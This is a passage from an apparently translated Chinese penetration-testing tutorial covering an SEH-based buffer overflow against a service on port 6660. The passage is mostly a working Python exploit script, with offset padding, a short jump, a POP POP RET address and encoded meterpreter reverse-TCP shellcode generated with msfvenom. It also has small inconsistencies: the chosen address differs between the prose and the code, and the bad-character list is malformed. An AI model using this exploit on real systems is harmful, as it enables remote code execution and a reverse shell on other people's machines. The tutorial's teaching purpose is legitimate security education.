 26.  这里有`.dll`中所有`POP POP RET`序列的地址。我们将使用第一个，`0x0f9a1f0b`。我们还需要一个短的`JUMP`代码，这将导致跳转到存储在内存中的外壳代码或 Cs。
27.  Short`JUMP`是`\xeb\x06`，其中`06`是我们需要跳转的字节数。我们仍然缺少 2 字节的 4 字节地址空间，我们可以使用 2 个 NOP。

28.  让我们创建一个外壳代码；因为我们是通过 HTTP 发送的，所以我们需要确保避免使用坏字符。我们将使用 msfvenom：

```
 msfvenom -p windows/meterpreter/reverse_tcp -f py
        -b "\x00\xff\x20\x25\x0a\x-d" -v buffer
```

以下屏幕截图显示了前面命令的输出：

![](img/4a72551c-1e19-414f-a9f1-33d95e744367.png)

29.  我们将把一切都放在利用中，如下所示：

```
        #!/usr/bin/python
        import socket
        target_address="192.168.110.12"
        target_port=6660
        buffer = "USV "
        buffer += "\x41" * 962 #offset
        # 6 Bytes SHORT jump to shellcode
        buffer += "\xeb\x06\x90\x90"
        # POP+POP+RET 0x0f9a196a
        buffer += "\x6a\x19\x9a\x0f"
        buffer += "\x90" * 16
        #Shellcode Reverse meterpreter.
        buffer += "\xdb\xde\xd9\x74\x24\xf4\xbf\xcf\x9f\xb1\x9a\x5e"
        buffer += "\x31\xc9\xb1\x54\x83\xee\xfc\x31\x7e\x14\x03\x7e"
        buffer += "\xdb\x7d\x44\x66\x0b\x03\xa7\x97\xcb\x64\x21\x72"
        buffer += "\xfa\xa4\x55\xf6\xac\x14\x1d\x5a\x40\xde\x73\x4f"
        buffer += "\xd3\x92\x5b\x60\x54\x18\xba\x4f\x65\x31\xfe\xce"
        buffer += "\xe5\x48\xd3\x30\xd4\x82\x26\x30\x11\xfe\xcb\x60"
        buffer += "\xca\x74\x79\x95\x7f\xc0\x42\x1e\x33\xc4\xc2\xc3"
        buffer += "\x83\xe7\xe3\x55\x98\xb1\x23\x57\x4d\xca\x6d\x4f"
        buffer += "\x92\xf7\x24\xe4\x60\x83\xb6\x2c\xb9\x6c\x14\x11"
        buffer += "\x76\x9f\x64\x55\xb0\x40\x13\xaf\xc3\xfd\x24\x74"
        buffer += "\xbe\xd9\xa1\x6f\x18\xa9\x12\x54\x99\x7e\xc4\x1f"
        buffer += "\x95\xcb\x82\x78\xb9\xca\x47\xf3\xc5\x47\x66\xd4"
        buffer += "\x4c\x13\x4d\xf0\x15\xc7\xec\xa1\xf3\xa6\x11\xb1"
        buffer += "\x5c\x16\xb4\xb9\x70\x43\xc5\xe3\x1c\xa0\xe4\x1b"
        buffer += "\xdc\xae\x7f\x6f\xee\x71\xd4\xe7\x42\xf9\xf2\xf0"
        buffer += "\xa5\xd0\x43\x6e\x58\xdb\xb3\xa6\x9e\x8f\xe3\xd0"
        buffer += "\x37\xb0\x6f\x21\xb8\x65\x05\x24\x2e\x46\x72\x48"
        buffer += "\xa5\x2e\x81\x95\xa8\xf2\x0c\x73\x9a\x5a\x5f\x2c"
        buffer += "\x5a\x0b\x1f\x9c\x32\x41\x90\xc3\x22\x6a\x7a\x6c"
        buffer += "\xc8\x85\xd3\xc4\x64\x3f\x7e\x9e\x15\xc0\x54\xda"
```
